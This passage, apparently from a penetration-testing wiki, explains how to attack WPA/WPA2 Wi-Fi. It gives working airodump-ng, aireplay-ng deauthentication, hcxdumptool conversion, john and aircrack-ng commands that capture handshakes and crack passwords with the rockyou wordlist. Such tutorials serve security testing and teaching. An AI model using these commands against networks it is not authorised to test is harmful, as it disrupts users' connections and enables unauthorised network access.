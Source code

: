 Note that hcxdumptool also capture handshakes (something like this will appear: MP:M1M2 RC:63258 EAPOLTIME:17091). You could transform the handshakes to hashcat/john format using cap2hccapx

tcpdump -r /tmp/attack.pcapng -w /tmp/att.pcap
cap2hccapx pmkid.pcapng pmkid.hccapx ["Filter_ESSID"]
hccap2john pmkid.hccapx > handshake.john
john handshake.john --wordlist=/usr/share/wordlists/rockyou.txt
aircrack-ng /tmp/att.pcap -w /usr/share/wordlists/rockyou.txt #Sometimes

I have noticed that some handshakes captured with this tool couldn't be cracked even knowing the correct password. I would recommend to capture handshakes also via traditional way if possible, or capture several of them using this tool.
Handshake capture

One way to attack WPA/WPA2 networks is to capture a handshake and try to crack the used password offline. To do so you need to find the BSSID and channel of the victim network, and a client that is connected to the network.
Once you have that information you have to start listening to all the commutation of that BSSID in that channel, because hopefully the handshake will be send there:

airodump-ng wlan0 -c 6 --bssid 64:20:9F:15:4F:D7 -w /tmp/psk --output-format pcap

Now you need to deauthenticate the client for a few seconds so it will automatically authenticate again to the AP (please read the part of DoS to find several ways to deauthenticate a client):

aireplay-ng -0 0 -a 64:20:9F:15:4F:D7 wlan0 #Send generic deauth packets, not always work

Note that as the client was deauthenticated it could try to connect to a different AP or, in other cases, to a different network.

Once in the airodump-ng appears some handshake information this means that the handshake was captured and you can stop listening:

Once the handshake is captured you can crack it with aircrack-ng:

aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 64:20:9F:15:4F:D7 /tmp/psk*.cap

Check if handshake in file
aircrack

aircrack-ng psk-01.cap #Search your bssid/essid and check if any handshake was capture

tshark

tshark -r psk-01.cap -n -Y eapol #Filter handshake messages #You should have the 4 messages.

​cowpatty​

cowpatty -r psk-01.cap -s "ESSID" -f -

If this tool finds an uncompleted handshake of an ESSID before the completed one, it won't detect the valid one.
pyrit

apt-get install pyrit #Not working for newer versions of kali
pyrit -r psk-01.cap analyze

WPA Enterprise (MGT)

It is important to talk about the different authentication methods that could be used by an enterprise Wifi. For this kind of Wifis you will probably find in airodump-ng something like this:
